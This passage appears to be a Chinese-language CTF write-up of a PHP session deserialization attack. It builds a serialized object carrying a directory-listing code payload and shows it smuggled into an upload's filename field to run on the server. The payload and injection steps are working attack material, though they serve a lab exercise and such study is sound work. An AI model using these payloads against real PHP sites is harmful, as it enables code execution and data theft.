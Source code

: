     </body>
    </html>

注意enctype属性:

|  表头   | 表头  |
|  ----  | ----  |
| application/x-www-form-urlencoded  | 在发送前编码所有字符（默认） |
| multipart/form-data  | 不对字符编码。 在使用包含文件上传控件的表单时，必须使用该值|
| text/plain  | 空格转换为"+"加号，但不对特殊字符编码。 |

---
Code,在本机PHP环境执行下，得到反序列化结果。
    
    <?php
    class OowoO
    {
        public $mdzz='xxxxx';
    }
    $obj = new OowoO();
    echo serialize($obj);
    # O:5:"OowoO":1:{s:4:"mdzz";s:5:"xxxxx";}

payloay1:将xxxxx替换为`print_r(scandir(dirname(__FILE__)));`,得到序列化结果：

    O:5:"OowoO":1:{s:4:"mdzz";s:36:"print_r(scandir(dirname(__FILE__)));";}

为防止转义，在引号:前加上\。利用前面的html页面随便上传一个东西，抓包，把filename改为如下：

    |O:5:\"OowoO\":1:{s:4:\"mdzz\";s:36:\"print_r(scandir(dirname(__FILE__)));\";}

注意，前面有一个`|`，这是session的格式。
![注意，前面](./imgs/web1.jpg)

接下来就是去读取 `Here_1s_7he_fl4g_buT_You_Cannot_see.php`

由phpinfo可知当前的路径为`/opt/lampp/htdocs/`

![注意，前面](./imgs/web2.jpg)
